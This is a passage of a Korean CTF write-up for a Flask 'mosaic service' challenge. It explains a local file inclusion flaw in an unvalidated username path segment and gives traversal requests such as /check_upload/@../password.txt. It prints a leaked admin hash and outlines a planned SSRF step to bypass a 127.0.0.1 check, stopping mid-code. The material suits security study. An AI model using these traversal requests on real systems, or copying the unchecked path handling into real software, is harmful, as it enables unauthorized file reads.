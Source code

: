 ```python
@app.route('/check_upload/@<username>/<file>')
def check_upload(username, file):
    #print('test test')
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    if username == "admin" and session["username"] != "admin":
        return "Access Denied.."
    else:
        return send_from_directory(f'{UPLOAD_FOLDER}/{username}', file)
```

잘못된 검증으로 인해 LFI가 발생하는 코드다.

```php
send_from_directory(f'{UPLOAD_FOLDER}/{username}', file)
```

라우팅 조건에 맞게 직접 경로에 접근하면, 지정한 경로의 파일을 읽을 수 있는 기능을 제공한다.

```php
/check_upload/@../app.py

/check_upload/@../password.txt
```

username에 대한 검증이 없어서 위와 같이 이전 경로에 접근이 가능하다.

따라서 위와 같이 접근하여 이전 경로에 존재하는 파일을 leak 할 수 있고 이를 이용해서 LFI로 `password.txt`를 읽을 수 있다.

### ○ password.txt

```php
# admin pw
2c3c519aa578fed9391ba8e1d40ce746412970ed7088be40b2046f28047a611f
```

```python
@app.route('/', methods=['GET'])
def index():
    if not session.get('logged_in'):
        return '''<h1>Welcome to my mosiac service!!</h1><br><a href="/login">login</a>&nbsp;&nbsp;<a href="/register">register</a>'''
    else:
        if session.get('username') == "admin" and request.remote_addr == "127.0.0.1":
            print('exploit success!!')
            copyfile(FLAG, f'{UPLOAD_FOLDER}/{session["username"]}/flag.png')
        return '''<h1>Welcome to my mosiac service!!</h1><br><a href="/upload">upload</a>&nbsp;&nbsp;<a href="/mosaic">mosaic</a>&nbsp;&nbsp;<a href="/logout">logout</a>'''
```

다음으로 index 페이지를 보자.

계정이 admin이고 `remote_addr`이 `127.0.0.1`인 경우에 admin 디렉토리로 `flag.png`를 복사한다. 

admin 계정에 대한 조건은 만족했지만, `remote_addr` 검증을 우회하기 위해 SSRF 벡터가 필요하다.

```python
@app.route('/mosaic', methods=['GET', 'POST'])
def mosaic():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    if request.method == 'POST':
        image_url = request.form.get('image_url')
        if image_url and "../" not in image_url and not image_url.startswith("/"):
            guesstype = mimetypes.guess_type(image_url)[0]
            ext = guesstype.split("/")[1]
            #print(guesstype)
            #print(ext)
            mosaic_path = os.path.join(f'{MOSAIC_FOLDER}/{session["username"]}', f'{os.urandom(8).hex()}.{ext}')
```